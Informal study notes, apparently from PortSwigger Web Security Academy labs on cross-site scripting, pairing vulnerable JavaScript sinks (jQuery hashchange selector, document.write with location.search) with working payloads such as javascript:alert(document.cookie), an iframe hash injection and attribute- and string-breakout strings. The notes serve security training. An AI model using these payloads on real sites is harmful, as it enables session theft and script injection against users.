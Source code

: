 https://0ace00060457dc2dc1419fa300c1006f.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)//

    
```
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```
    
<iframe src="https://0a8d00c703f5b286c079059a004f00d5.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
    
https://stackoverflow.com/questions/72537989/is-location-hash-vulnerable-to-dom-xss-in-jquery-selector-when-combined-with-oth

https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/slice

### Lab: Reflected XSS into attribute with angle brackets HTML-encoded
    
can be anything here, then hover over input to trigger xss "onmouseover="alert(1)
    
### Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded

javascript:alert(1)
    
### Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded
    
```
<script>
    var searchTerms = 'asdasdasd';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

'; alert(1); var can_be_anything = '
    
var searchTerms = '';
    
var searchTerms = ''; alert(1); var can_be_anything = '';

https://security.stackexchange.com/questions/66252/encodeuricomponent-in-a-unquoted-html-attribute

### Lab: DOM XSS in document.write sink using source location.search inside a select element

```
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```
